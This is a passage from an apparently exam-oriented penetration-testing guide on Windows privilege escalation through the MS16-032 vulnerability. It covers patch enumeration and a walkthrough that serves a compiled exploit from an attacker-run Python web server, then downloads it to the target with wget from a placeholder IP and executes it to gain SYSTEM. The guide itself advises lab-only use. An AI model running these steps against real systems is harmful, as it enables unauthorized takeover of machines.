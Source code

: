 Observe results — if the exploit is successful, you should see elevated privileges.

---

## ➤ **4.1.4 Verifying SYSTEM Privilege**

After running the exploit, check privileges:

```powershell
whoami
```

Expected output:

```
nt authority\system
```

You now have full control.

---

## ➤ **4.1.5 Risk Management**

✔ Always use snapshots before testing.
✔ Run exploits in a lab, not production environments.
✔ Confirm build version and architecture multiple times.
✔ Document each step — especially when performing in exams.

---

## ➤ **4.1.6 Real Example Walkthrough**

**Target System:**

* Windows 10 Pro
* Build 17763
* Architecture: x64
* Missing MS16-032 patch

**Steps:**

1. `systeminfo` → confirm version.
2. `wmic qfe` → see missing updates.
3. Use exploit suggester → find MS16-032 applicable.
4. Compile exploit → ensure x64 target.
5. Upload using Python server:

   ```bash
   python3 -m http.server 8000
   ```
6. On target:

   ```powershell
   wget http://<your-ip>:8000/exploit.exe -OutFile exploit.exe
   .\exploit.exe
   ```
7. Run `whoami` → SYSTEM privileges gained.

---